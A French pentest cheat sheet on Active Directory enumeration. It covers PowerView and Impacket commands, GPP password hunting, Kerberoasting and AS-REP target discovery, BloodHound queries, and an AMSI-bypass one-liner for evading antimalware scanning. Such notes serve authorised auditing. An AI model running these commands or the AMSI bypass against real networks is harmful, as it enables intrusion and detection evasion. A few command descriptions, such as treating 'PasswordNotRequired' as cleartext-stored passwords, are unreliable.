

Cette documentation détaille les techniques d'énumération **Active Directory** et l'analyse des **ACL** (Access Control List) dans le cadre d'un audit de sécurité.



> [!info] Contexte
> L'énumération nécessite un contexte utilisateur valide dans le domaine pour interroger l'**AD**.

> [!tip] Astuce
> Toujours privilégier l'énumération passive avant l'active pour éviter les alertes **SIEM**.

## Énumération Active Directory avec PowerShell

> [!note] Prérequis
> **RSAT** doit être installé pour les cmdlets **AD** natives.

### Requêtes AD natives
Lister les utilisateurs du domaine :
```powershell
Get-ADUser -Filter * -Properties * | Select Name,SamAccountName,Enabled,Description
```

Lister les groupes du domaine :
```powershell
Get-ADGroup -Filter * | Select Name,GroupCategory,GroupScope
```

Lister les membres d'un groupe spécifique :
```powershell
Get-ADGroupMember -Identity "Administrators"
```

Lister les machines du domaine :
```powershell
Get-ADComputer -Filter * | Select Name,DNSHostName,IPv4Address
```

Lister les administrateurs du domaine :
```powershell
Get-ADGroupMember -Identity "Domain Admins"
```

Lister les **GPO** :
```powershell
Get-GPO -All | Select DisplayName,CreationTime,ModificationTime
```

Lister les utilisateurs protégés :
```powershell
Get-ADGroupMember -Identity "Protected Users"
```

## Énumération avec PowerView

**PowerView** fait partie de la suite **PowerSploit**.

Charger le module :
```powershell
Import-Module .\PowerView.ps1
```

Lister les contrôleurs de domaine :
```powershell
Get-NetDomainController
```

Lister les sessions ouvertes sur une machine :
```powershell
Get-NetSession -ComputerName target-PC
```

Lister les utilisateurs connectés :
```powershell
Get-NetLoggedon -ComputerName target-PC
```

Lister les partages accessibles :
```powershell
Get-NetShare -ComputerName target-PC
```

Lister les utilisateurs sans mot de passe défini :
```powershell
Get-NetUser -UserPassNotRequired
```

Lister les comptes avec mot de passe stocké en clair dans l'**AD** :
```powershell
Get-NetUser -PasswordNotRequired
```

Lister les comptes sensibles à la délégation **Kerberos** :
```powershell
Get-NetUser -TrustedToAuth
```

Lister les trusts entre domaines :
```powershell
Get-NetDomainTrusts
```

## Énumération via outils Linux (impacket, ldapsearch)

L'énumération externe (depuis une machine non jointe au domaine) s'effectue via les outils **Impacket** ou **ldapsearch**.

Lister les utilisateurs avec **ldapsearch** :
```bash
ldapsearch -x -H ldap://<DC_IP> -D "<DOMAIN>\<USER>" -w '<PASSWORD>' -b "DC=<DOMAIN>,DC=local" "(objectClass=user)"
```

Utiliser **GetADUsers.py** (Impacket) pour extraire les utilisateurs :
```bash
python3 GetADUsers.py -all -dc-ip <DC_IP> <DOMAIN>/<USER>:<PASSWORD>
```

## Analyse des GPO pour escalade de privilèges

L'analyse des **GPO** peut révéler des mots de passe **GPP** (Group Policy Preferences) ou des scripts de logon mal configurés.

Recherche de mots de passe dans les fichiers `Groups.xml` :
```bash
grep -r "cpassword" /path/to/sysvol/
```

> [!warning]
> Les mots de passe trouvés dans les fichiers **GPP** sont chiffrés avec une clé publique statique connue de Microsoft. Ils peuvent être déchiffrés avec `gpp-decrypt`.

## Énumération des services et vulnérabilités

Cette phase cible les vecteurs d'attaque liés au protocole **Kerberos**. Voir les notes : [[Kerberoasting]], [[AS-REP Roasting]].

### AS-REP Roasting
Recherche d'utilisateurs sans pré-authentification Kerberos :
```powershell
Get-NetUser -PreauthNotRequired
```

### Kerberoasting
Recherche de comptes avec un **Service Principal Name (SPN)** :
```powershell
Get-NetUser -SPN | Select samaccountname, serviceprincipalname
```

## Techniques d'évasion

Pour contourner l'**AMSI** (Antimalware Scan Interface) lors de l'exécution de scripts :
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Utilisation de techniques **Living off the Land** (LotL) :
- Privilégier l'utilisation de `findstr` pour chercher des fichiers plutôt que des outils tiers.
- Utiliser `wmic` ou `powershell` natif pour éviter le chargement de binaires suspects.

## Énumération des ACL

Lister les permissions sur un utilisateur spécifique :
```powershell
Get-ACL "AD:\CN=target,OU=Users,DC=domain,DC=com" | Format-List
```

Lister les permissions sur un groupe spécifique :
```powershell
Get-ACL "AD:\CN=Admins,OU=Groups,DC=domain,DC=com" | Format-List
```

Lister les droits d'accès sur un objet **AD** avec **PowerView** :
```powershell
Get-ObjectACL -SamAccountName target -ResolveGUIDs
```

Lister tous les objets où un utilisateur a des droits spécifiques :
```powershell
Find-InterestingDomainAcl -UserName target
```

Lister les utilisateurs ayant des permissions élevées sur l'**AD** :
```powershell
Get-NetGPOGroup | ? { $_.Privileged -eq $true }
```

## Énumération avec BloodHound

> [!danger] Risque de détection
> L'utilisation de **SharpHound** avec **--CollectionMethod All** est très bruyante (**Event ID 4662**).

Collecte des données avec **SharpHound** :
```powershell
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Temp
```

### Exemples de requêtes Cypher
Lister les administrateurs du domaine :
```cypher
MATCH (n:Group) WHERE n.name="DOMAIN ADMINS@domain.local" RETURN n
```

Lister tous les chemins vers l'administration du domaine :
```cypher
MATCH p=shortestPath((n:User)-[r:AdminTo|MemberOf*1..]->(m:Group {name:"DOMAIN ADMINS@domain.local"})) RETURN p
```

Lister les objets où un utilisateur a un contrôle total :
```cypher
MATCH p=(n:User {name:"target@domain.local"})-[r:Owns|GenericAll|WriteOwner|WriteDacl|AllExtendedRights*1..]->(m) RETURN p
```

## Sécurité et conformité

L'énumération **Active Directory** sans autorisation est illégale. Les logs Windows (**Event ID 4662**, **4624**) enregistrent ces actions. L'utilisation est réservée aux environnements autorisés.

Sujets liés : [[Kerberoasting]], [[AS-REP Roasting]], [[GPO Exploitation]], [[AD Trust Mapping]], [[BloodHound Analysis]].